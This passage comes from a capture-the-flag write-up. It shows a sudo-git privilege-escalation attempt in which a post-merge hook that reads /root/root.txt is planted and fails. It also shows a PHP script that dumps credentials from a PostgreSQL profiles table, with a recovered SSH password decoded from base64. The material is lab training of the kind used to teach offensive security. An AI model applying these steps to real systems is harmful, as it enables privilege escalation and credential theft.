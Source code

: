 My first idea was to try `sudo /usr/bin/git pull --help` to get the pager as
root but that doesn't work. The second idea was to create a new git repository
and play with the post-merge hooks but I didn't had the right to create a new
git project. It seems like a dead end.

    :::text
    $ cd /var/www/html
    $ ls
    deployer
    help
    index.html
    profile
    $ cp -r profile /tmp/poi
    $ cd /tmp/poi
    $ cd .git/hooks/
    $ echo '#!/bin/bash' >> post-merge
    $ echo 'cat /root/root.txt' >> post-merge
    $ chmod +x post-merge
    $ sudo /usr/bin/git pull
    fatal: this operation must be run in a work tree


## Postgresql

By exploring more the gitlab we can found a "snippet" name "Postgresql" containing
the base of PHP script to connect to the database.

    :::PHP
    <?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection, "SELECT * FROM profiles");

We complete the script to display the database content.

    :::PHP
    <?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection, "SELECT * FROM profiles");
    $numrows = pg_numrows($result);
    for($i = 0; $i < $numrows; $i++)
    {
        $row = pg_fetch_array($result, $i);
        echo "id: " . $row[0];
        echo "user: " . $row[1];
        echo "pass: " . $row[2];
    }
    ?>

We then deploy it and execute it. The content of the database is
`id: 1user: clavepass: c3NoLXN0cjBuZy1wQHNz==`
Decoding the base64 password give an error as the padding is wrong.

```
echo -ne 'c3NoLXN0cjBuZy1wQHNz' | base64 -d
ssh-str0ng-p@ss
```
